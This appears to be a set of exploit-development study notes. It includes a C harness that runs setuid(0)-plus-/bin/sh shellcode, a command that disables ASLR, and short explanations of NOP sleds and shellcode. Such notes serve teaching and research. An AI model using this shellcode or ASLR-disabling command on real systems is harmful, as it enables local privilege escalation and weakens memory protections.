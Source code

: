 ## Local buffer overflow exploits

```text
#include <stdio.h>
#include <sys/mman.h>

const char shellcode[] =  //setuid(0) & Aleph1's famous shellcode, see ref.
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80"      //setuid(0) first
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

int main() { //main function

    //The shellcode is on the .data segment,
    //we will use mprotect to make the page executable.
    mprotect(
        (void *)((int)shellcode & ~4095),
        4096,
        PROT_READ | PROT_WRITE | PROT_EXEC
    );

    //Convert the address of the shellcode variable to a function pointer,
    //allowing us to call it and execute the code.
    int (*ret)() = (int(*)())shellcode;
    return ret();
}
```

## ASLR

Address space layout randomization (ASLR) works by randomizing the locations of different sections of the program in memory, including the executable base, stack, heap, and libraries, making it difficult for an attacker to reliably jump to a specific memory address. To disable ***ASLR***:

    $ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

## NOP sled

The NOP (no operation) command simply means to do nothing but move to the next command. Hackers have learned to use NOP for padding. When placed at the front of an exploit buffer, this padding is called a NOP sled. If the EIP is pointed to a NOP sled, the processor will ride the sled right into the next component. On x86 systems, the `0x90` opcode is the most commonly used NOP. Any operation sequence that does not interfere with the exploit’s outcome would be considered equivalent to a NOP.

## Shellcode

Shellcode is a string of binary opcodes for the exploited architecture (Intel x86 32 bit, Intel x86 64 bit, etc), often represented in hexadecimal form. There are tons of shellcode libraries online, for all platforms.
